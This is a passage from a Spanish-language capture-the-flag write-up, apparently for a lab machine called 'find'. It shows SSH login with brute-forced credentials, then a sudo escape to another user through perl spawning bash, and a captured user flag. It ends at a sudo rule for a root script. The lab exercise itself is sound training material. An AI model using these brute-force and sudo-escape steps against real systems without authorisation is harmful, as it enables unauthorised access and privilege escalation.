```
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-24 03:44:27
```

Veremos que hemos encontrados una credenciales las cuales vamos a probar por `SSH` a ver si funcionan.

### SSH

```shell
ssh missyred@<IP>
```

Metemos como contraseña `iloveyou` y veremos que estamos dentro.

## Escalate user kings

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for missyred on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User missyred may run the following commands on find:
    (kings) /usr/bin/perl
```

Veremos que podremos ejecutar el binario `perl` como el usuario `kings` por lo que haremos lo siguiente:

```shell
sudo -u kings perl -e 'exec "/bin/bash";'
```

Info:

```
kings@find:/home/missyred$ whoami
kings
```

Vamos a leer la `flag` del usuario.

> user.txt

```
f4e690f638c01bd8a19fb1349d40519c
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh
```
